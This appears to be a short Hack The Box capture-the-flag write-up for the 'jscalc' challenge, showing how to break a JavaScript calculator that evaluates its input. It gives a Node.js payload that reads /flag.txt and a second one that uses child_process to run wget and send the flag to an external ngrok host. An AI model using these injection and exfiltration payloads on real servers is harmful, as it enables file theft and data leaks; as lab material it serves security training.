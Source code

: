 # Hack The Box Challenge - Calculator File Reading

## Challenge Description
HTB jscalc, your goal is to run a script in the calculator input that reads the contents of a file named `flag.txt`. CHALLENGE DESCRIPTION: In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑


## Easy Exploit
File System Module
The easiest way is to use the fs module.

1. In the calculator input, run the following JavaScript code to get the flag:

   ```javascript
   require('fs').readFileSync('/flag.txt', 'utf8')


## Another Way To Exploit Using Ngrok Reverse Flag

```javascript
require('child_process').exec('wget https://fsr2-a3f2-v01v-b337-7100-212f-5c22-ecar-g5ar.ngrok-free.app?flag=$(cat /flag.txt)')

